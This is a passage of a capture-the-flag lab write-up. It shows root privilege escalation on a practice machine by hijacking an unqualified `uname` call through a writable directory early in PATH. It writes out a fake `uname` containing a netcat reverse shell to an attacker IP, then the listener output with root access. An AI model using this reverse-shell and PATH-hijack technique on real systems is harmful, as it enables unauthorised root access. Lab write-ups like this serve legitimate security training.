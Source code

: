 1. So the program executes the command `uname -rnsom`
2. The `PATH` variable used is `PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

We can see that `uname` is executed without an absolute path and it depends on the  `PATH` variable to find the `uname` file. 

```bash
jkr@writeup:/usr/bin$ which uname
/bin/uname
```
`uname` is located at `/bin/uname`. So if we can write our own `uname` to a higher path in `PATH` variable, we can execute our version of `uname`

```bash
jkr@writeup:/usr/local$ ls -la | grep bin
drwx-wsr-x  2 root staff 20480 Oct 25 20:54 bin
drwx-wsr-x  2 root staff 12288 Oct 26 01:48 sbin
```
These directories are writable and they are at a higher position in `PATH` variable. So if we create a file named `uname` in this path, the system will
execute its contents as root. So we can run any code we want as root.

## Root shell
```bash
jkr@writeup:~$ cd /usr/local/bin
jkr@writeup:/usr/local/bin$ echo ‘nc 10.10.14.85 8081 -e /bin/sh’ > uname
jkr@writeup:/usr/local/bin$ chmod 777 uname
```
I created a file that will give a reverse `netcat` shell. 
```bash
root@kali:~# nc -lvp 8081
listening on [any] 8081 ...
connect to [10.10.14.85] from ip-10-10-10-138.ap-south-1.compute.internal [10.10.10.138] 40924
/bin/sh: 0: cant access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
eeba47**********************
```
We have a root shell. Pwned!
### Solved